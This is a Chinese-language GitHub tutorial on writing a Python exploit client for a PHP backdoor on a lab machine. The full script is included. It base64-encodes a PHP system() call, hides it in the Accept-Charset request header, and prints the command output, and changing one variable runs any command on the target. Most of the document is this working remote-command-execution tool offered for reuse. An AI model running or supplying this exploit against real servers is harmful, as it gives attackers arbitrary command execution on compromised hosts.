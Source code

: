 # 使用Python编写一个简单的EXP
- 首先我们需要import导入两个包**request**和**base64**，他们分别用来处理请求和base64的加解码
![image](https://github.com/hecker-zz/hecker/assets/153266742/1f0f145e-839f-4327-b4ac-4808897bd9b9)

- 拿到我们后门文件的url，以我靶机为例：
![image](https://github.com/hecker-zz/hecker/assets/153266742/7cde6c29-42d6-4c52-a11c-32347af54bb8)

- 准备需要在目标机执行的cmd命令，因为请求中的命令是被base64编码的，所以我们也需要把我们的命令转成base64，转码就需要用到**base64.b64encode()** ，这里的参数需要的是**二进制**。
![image](https://github.com/hecker-zz/hecker/assets/153266742/579093b8-9698-4d21-9e82-0a2c0cda4371)


- 创建一个请求的头部
![image](https://github.com/hecker-zz/hecker/assets/153266742/1881085a-96f4-4098-9bb4-75b3ec1acefd)

- 发送GET请求并把**url**和**headers**使用关键字传参填入，把得到的回应做一个筛选，让其只显示执行命令的结果，不显示HTML页面，最后打印到屏幕上即可。
![image](https://github.com/hecker-zz/hecker/assets/153266742/e699c70c-cd04-4bb7-9600-9b4262ff80e4)



- 一切准备就绪，看看结果吧！
![image](https://github.com/hecker-zz/hecker/assets/153266742/97f0ebb3-ef84-433b-94c8-ab1d1f602fc3)

- 只需要更改cmd变量即可执行不同的命令
![image](https://github.com/hecker-zz/hecker/assets/153266742/3a69a700-866b-4a08-8f80-72f507ba8e88)



- 源码如下：
```python
import requests
import base64

#后门文件的url
url="http://192.168.200.148/1.php"

#创建cmd命令，并加密成base64
cmd="whoami"
cmd=f"""system("{cmd}");"""
cmd=base64.b64encode(cmd.encode()).decode()


#创建请求头部
headers={
    "User-Agent":       "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36",
    "Accept-Encoding":  "gzip,deflate",
    "Accept-Charset":   f"{cmd}"
}


#创建请求
res=requests.get(  url=url,  headers = headers)
html=res.content.decode("GBK")
html=html[0:html.find("<!DOCTYPE")]
print(html)
```